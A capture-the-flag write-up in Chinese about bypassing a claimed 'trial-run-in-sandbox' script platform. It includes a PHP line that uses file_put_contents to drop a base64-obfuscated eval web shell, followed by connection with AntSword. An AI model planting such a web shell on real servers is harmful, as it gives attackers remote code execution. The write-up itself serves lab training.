

### 内网渗透与高级社工-免杀payload制作-G3

#### 题目

运维团队部署了一套自动化任务运行平台。据介绍，用户提交的脚本会先在沙箱中试运行一遍，确认行为正常后才会正式执行并返回结果。这套"先试后跑"的双重机制被认为十分可靠。你被指派来验证这个说法——请尝试获取服务器上的 flag。

#### 沙箱能有什么坏心思呢？

看题目，我觉得关键是它真的会跑一遍！跑了再看结果，那么这个结果它依据什么判断呢？

Fuzz测试结果如下：



看来运行前过滤算是比较少了，主要还是过滤了直接命令执行的函数。
`6475`长度的是被过滤的payload。

.......

#### 骗你的根本就没有沙箱

看到`file_put_contents`可用，就马上构造了如下payload：

```php
file_put_contents("shell.php",base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydndWd1Z2EnXSk7Pz4='));
```

这题比第一题还简单，`_`可用嘛！

**antsword连接，结束！**

#### 总结：

我还说沙箱能有什么坏心思呢？我都做好学习新东西的准备了，可惜~~


